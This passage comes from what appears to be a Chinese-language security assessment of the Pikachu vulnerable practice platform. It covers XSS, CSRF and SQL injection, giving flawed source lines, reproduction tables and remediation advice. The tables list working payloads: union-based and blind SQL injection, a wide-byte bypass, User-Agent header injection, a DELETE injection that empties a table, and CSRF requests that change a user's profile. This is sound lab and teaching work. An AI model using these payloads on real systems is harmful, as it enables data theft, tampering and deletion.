javascript: 伪协议



**xss08-bypass04** — xss_04:变量直出到 &lt;script>，闭合单引号逃逸 JS 上下文



**xss09-blind** — 盲打XSS:留言内容在管理员后台执行



### 修复建议

- 输出编码要按上下文选函数：HTML 正文 `htmlspecialchars($s, ENT_QUOTES|ENT_SUBSTITUTE, 'UTF-8')`；属性值必须加引号；JS 上下文用 `json_encode($s, JSON_HEX_TAG|JSON_HEX_AMP)`；URL 参数用 `rawurlencode()`。
- 富文本输入不要用「过滤标签」黑名单，改用白名单净化库（HTMLPurifier）并在服务端执行。
- 部署 CSP：`default-src 'self'; script-src 'self'; object-src 'none'; base-uri 'none'`，禁掉 inline script 可以从根上废掉大部分 XSS 利用。
- Cookie 加 `HttpOnly; Secure; SameSite=Lax`，让 XSS 拿不到会话；DOM 型统一改用 `textContent` / `createElement`，禁止 innerHTML 拼接用户数据。

## 3. 跨站请求伪造 CSRF {#m3}

`风险：中危`　`CWE-352 缺少请求来源校验`

CSRF 的前提是「浏览器会自动带上目标的 cookie」。Pikachu 给了 GET、POST、Token 三种形态：前两种完全没有来源校验，第三种虽然引入了 token，但实现上有两个致命细节 —— `==` 松散比较，以及 `set_token()` 在 token 校验之后才执行，导致会话里 token 还是 null 时，`null == null` 成立，第一次不带 token 的请求反而能通过。

### 源码缺陷

- vul/csrf/csrfget/csrf_get_edit.php:30-33 —— 只要 `isset($_GET['submit'])` 就执行 update，GET 请求即可改资料，无 token、无 Referer 校验。
- vul/csrf/csrfpost/csrf_post_edit.php:30-33 —— 换成 POST 但依旧没有任何来源校验，攻击者构造一个自动提交的表单即可。
- vul/csrf/csrftoken/token_get_edit.php:33 —— `$_GET['token']==$_SESSION['token']`（松散比较）；第 48 行 `set_token();` 在校验之后才生成 token，首请求时 session 里是 null。
- inc/function.php:69-73 —— `set_token()` 先 unset 再 `uniqid(mt_rand(...))`：token 可预测、每次请求重置、且没有被一次性消费。



### 复现过程

| 用例 | 载荷 / 操作 | 结果 |
|---|---|---|
| `csrf01-get` | `GET csrf_get_edit.php?...&submit=submit` | 库中 vince 现为 (('girl', '99999999999', 'GET-CSRF', 'csrf@evil.com'),) |
| `csrf02-post` | `攻击页 http://127.0.0.1:8081/csrf_form.html` | 库中 vince 现为 (('girl', '99999999999', 'FORM-CSRF', 'csrf@evil.com'),) |
| `csrf03-token` | `token=866916af47dfbf3b1a802078375` | ①无token(首):(('NULL-TOKEN-BYPASS',),) ②无token(次):(('NULL-TOKEN-BYPASS',),) ③带token:(('WITH-TOKEN',),) |

**csrf01-get** — CSRF(GET)：一个 URL 就能改资料，无任何 token


**csrf02-post** — CSRF(POST)：外部站点自动提交表单改资料



**csrf03-token** — CSRF Token：首次无 token 因 null==null 绕过；token 生成后不带才被拦



### 修复建议

- 所有改变状态的接口只接受 POST/PUT/DELETE，并强制校验 CSRF token：`bin2hex(random_bytes(32))`，与会话绑定、一次性消费、`hash_equals()` 严格比较、缺失即拒绝（不要给 null 留「默认相等」的机会）。
- 会话 cookie 设置 `SameSite=Lax`（或 Strict）+ `Secure` + `HttpOnly`，这是成本最低的一道防线。
- 校验 `Origin`/`Referer` 白名单；对改密、转账等敏感操作加二次确认（重输口令或短信）。
- 不要把 token 放在 GET 参数里（会进日志/Referer），放在表单 hidden 或自定义请求头里。

## 4. SQL 注入 SQL-Inject {#m4}

`风险：严重`　`CWE-89 SQL 语句拼接`

Pikachu 的 SQL 注入覆盖了几乎所有形态：数字型、字符型、搜索型、xx 型（多一层括号）、insert 型（注册处）、HTTP 头注入、布尔盲注、时间盲注、宽字节注入，最后还有一个 DELETE 注入。一共 11 个用例，全部成功。唯一「打不动」的是登录处，因为那里的参数经过了 `escape()` —— 这正好给出对照实验：同一个 payload 在注册处有效、在登录处无效。

### 源码缺陷

- vul/sqli/sqli_id.php:24-27 —— `$query="select username,email from member where id=$id";` 数字型，无引号无强转。
- vul/sqli/sqli_str.php:24-28 / sqli_search.php:28-30 / sqli_x.php:24-28 —— 单引号、`like '%$name%'`、多一层括号三种拼接。
- vul/sqli/sqli_iu/sqli_reg.php:27-31 —— `//$getdata=escape($link,$_POST);` 被注释掉，`$getdata=$_POST;` 后直接拼 `insert into member(...) values(...)`。
- vul/sqli/sqli_iu/sqli_login.php:32 —— `escape($link,$_GET['username'])` 生效，同一 payload 登录失败（对照项）。
- vul/sqli/sqli_header/sqli_header.php:35-37 —— `$_SERVER['HTTP_USER_AGENT']` 等请求头直接拼进 `insert httpinfo(...)`。
- vul/sqli/sqli_widebyte.php:26-32 —— `escape()` 之后又执行 `set character_set_client=gbk`，`%df` 与转义反斜杠 `%5c` 结合成 `運`，宽字节吃掉转义。
- vul/xss/xss_stored.php:33-35 —— 存储型 XSS 页里顺手拼了 `delete from message where id={$_GET['id']}`。



### 复现过程

| 用例 | 载荷 / 操作 | 结果 |
|---|---|---|
| `sqli01-id` | `1 union select concat('INJ-',user()),database()` | HTTP 200 / 命中是 |
| `sqli02-str` | `kobe' union select concat('INJ-',user()),database()#` | name? your uid:3 your email is: kobe@pikachu.com your uid:INJ-pikachu@localhost your email is: pikachu Pikachu PIKA~ PIKA~© runner.han |
| `sqli03-search` | `kobe' union select concat('INJ-',user()),2,database()#` | 下： username：kobe uid:3 email is: kobe@pikachu.com username：INJ-pikachu@localhost uid:2 email is: pikachu Pikachu PIKA~ PIKA~© runner.han |
| `sqli04-x` | `kobe') union select concat('INJ-',user()),database()#` | name? your uid:3 your email is: kobe@pikachu.com your uid:INJ-pikachu@localhost your email is: pikachu Pikachu PIKA~ PIKA~© runner.han |
| `sqli05-iu-reg` | `INJ01',md5('123456'),'boy','13000000000','inj@pika.com','x')#` | 页面:ikachu PIKA~ PIKA~© runner.han \| 库:(('INJ01', 'e10adc3949ba59abbe56e057f20f883e'),) \| 登录:Pikachu 漏洞练习平台 pika~pika~ 欢迎 |
| `sqli05b-iu-login-escaped` | `username=kobe' or 1=1#` | 命中登录失败=True |
| `sqli07-blind-b` | `kobe' and (select length(database()))=7#` | 真:chu.com Pikachu PIKA~ PIKA~© runner.han \| 假:ikachu PIKA~ PIKA~© runner.han |
| `sqli08-blind-t` | `kobe' and sleep(3)#` | 响应耗时 3.21s |
| `sqli09-header` | `User-Agent: ' and (select sleep(3)) and '1'='1` | 耗时 3.04s；页面回显 UA:["你的user agent:0' or if((select length(database()))=7,sleep(3),0) or '0"] |
| `sqli10-widebyte` | `%df' union select concat(0x494e4a2d,user()),database()#` | HTTP 200 / 命中是 |
| `sqli11-del` | `id=1 or 1=1` | 删除前 3 条 -> 删除后 0 条 |

**sqli01-id** — 数字型注入(POST id)：id 未加引号直接拼接，union 回显库名/用户



**sqli02-str** — 字符型注入(GET name)：单引号闭合 + union



**sqli03-search** — 搜索型注入(like '%x%')：三列 union 匹配 username,id,email



**sqli04-x** — xx型注入：额外括号闭合



**sqli05-